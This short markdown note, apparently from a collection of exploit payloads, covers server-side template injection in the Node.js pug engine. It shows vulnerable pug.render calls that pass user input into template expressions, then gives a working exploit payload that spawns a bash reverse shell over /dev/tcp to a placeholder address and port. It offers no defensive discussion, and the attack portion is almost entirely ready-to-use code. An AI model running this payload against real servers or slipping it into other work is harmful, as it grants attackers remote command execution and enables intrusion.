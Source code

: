 # NodeJs pug

## Installation

`$ npm install pug`

## Vulnerable Source

```nodejs
pug = require('pug');
pug.render('#{<code-here>}');

// or 

pug.render('title= <code-here>');
```

## Exploit

```nodejs
require("child_process").exec("bash -c \\"bash -i >& /dev/tcp/127.0.0.1/4444 0>&1\\"")
```


